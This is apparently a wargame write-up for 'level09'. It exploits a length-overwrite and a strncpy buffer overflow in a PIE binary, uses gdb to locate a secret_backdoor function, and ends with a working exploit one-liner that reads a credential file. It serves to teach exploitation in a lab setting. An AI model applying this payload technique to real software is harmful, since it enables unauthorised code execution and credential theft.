 ## Brief
This program takes two user input: a username and a password.
## Exploit
The first function called: `set_username` uses `fgets` and write the 41 first byte of our input after the main buffer.
This will be used in order to overwrite `local14` which is then used as the length of strncpy in the `set_msg` function.
The second user input is in the `set_msg` function since we overwrote the length that we copied to `0xff` we can rewrite the return address.
The trick here is that the PIE is enabled so we need to retrieve the address of the function.
In gdb doing:
```bash
(gdb) info function secret_backdoor 
All functions matching regular expression "secret_backdoor":

Non-debugging symbols:
0x000000000000088c  secret_backdoor
```
Will only give us the offset of the function which is `0x88c`.
We now need the real address and to do so we have to run the program.
```bash
(gdb) b main
Breakpoint 1 at 0xaac
(gdb) r
Starting program: /home/users/level09/level09 
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000

Breakpoint 1, 0x0000555555554aac in main ()
(gdb) info function secret_backdoor
All functions matching regular expression "secret_backdoor":

Non-debugging symbols:
0x000055555555488c  secret_backdoor
```
We now have the correct address which is `0x000055555555488c`

## Commands
 
```bash
(python -c "print('\xff'*41)"; python -c "print('A'*200 + '\x8c\x48\x55\x55\x55\x55\x00\x00')"; echo "cat /home/users/end/.pass") | ./level09
```
